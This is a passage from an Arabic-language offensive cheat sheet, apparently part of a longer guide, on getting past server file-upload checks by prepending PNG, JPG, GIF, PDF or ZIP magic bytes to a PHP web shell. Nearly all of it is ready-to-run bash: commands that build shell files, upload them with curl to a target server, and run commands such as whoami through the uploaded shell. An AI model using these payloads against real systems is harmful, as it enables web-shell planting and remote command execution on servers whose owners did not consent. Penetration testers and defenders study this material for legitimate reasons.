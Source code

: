   ```bash
  ```

### 6. إضافة بايتات سحرية لأنواع ملفات أخرى
**شرح**: استخدام بايتات سحرية لأنواع ملفات أخرى غير الصور (مثل PDF أو ZIP) لتجاوز فحص البايتات.
**كيف يعمل**: الخادم قد يقبل أنواع ملفات أخرى غير الصور، مما يسمح بتحميل ملفات تحتوي على شيفرة خبيثة.
**متى يُستخدم؟**: عندما يسمح الخادم بأنواع ملفات مثل PDF أو ZIP.
**المحاولات**:
- **PDF**: `\x25\x50\x44\x46` (%PDF)
- **ZIP**: `\x50\x4b\x03\x04` (PK..)
**الأوامر**:
- إنشاء ملف PDF:
  ```bash
  echo -ne '\x25\x50\x44\x46' > shell.pdf
  echo '<?php system($_GET["cmd"]); ?>' >> shell.pdf
  ```
- تحميل الملف:
  ```bash
  curl -X POST -H "Content-Type: application/pdf" -F "file=@shell.pdf" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.pdf?cmd=whoami'
  ```

---

## ملخص جميع الأوامر لكل تقنية

1. **إضافة بايتات سحرية لـ PNG**:
   ```bash
   echo -ne '\x89PNG\r\n\x1a\n\0\0\0\rIHDR' > shell.png
   echo '<?php system($_GET["cmd"]); ?>' >> shell.png
   curl -X POST -H "Content-Type: image/png" -F "file=@shell.png" http://<target>/upload
   curl 'http://<target>/Uploads/shell.png?cmd=whoami'
   ```

2. **إضافة بايتات سحرية لـ JPG**:
   ```bash
   echo -ne '\xff\xd8\xff' > shell.jpg
   echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
   curl -X POST -H "Content-Type: image/jpeg" -F "file=@shell.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.jpg?cmd=whoami'
   ```

3. **إضافة بايتات سحرية لـ GIF**:
   ```bash
   echo -ne 'GIF89a' > shell.gif
   echo '<?php system($_GET["cmd"]); ?>' >> shell.gif
   curl -X POST -H "Content-Type: image/gif" -F "file=@shell.gif" http://<target>/upload
   curl 'http://<target>/Uploads/shell.gif?cmd=whoami'
   ```

4. **دمج البايتات السحرية مع الامتدادات المزدوجة**:
   ```bash
   echo -ne '\x89PNG\r\n\x1a\n\0\0\0\rIHDR' > shell.php.png
   echo '<?php system($_GET["cmd"]); ?>' >> shell.php.png
   curl -X POST -H "Content-Type: image/png" -F "file=@shell.php.png" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php.png?cmd=whoami'
   ```
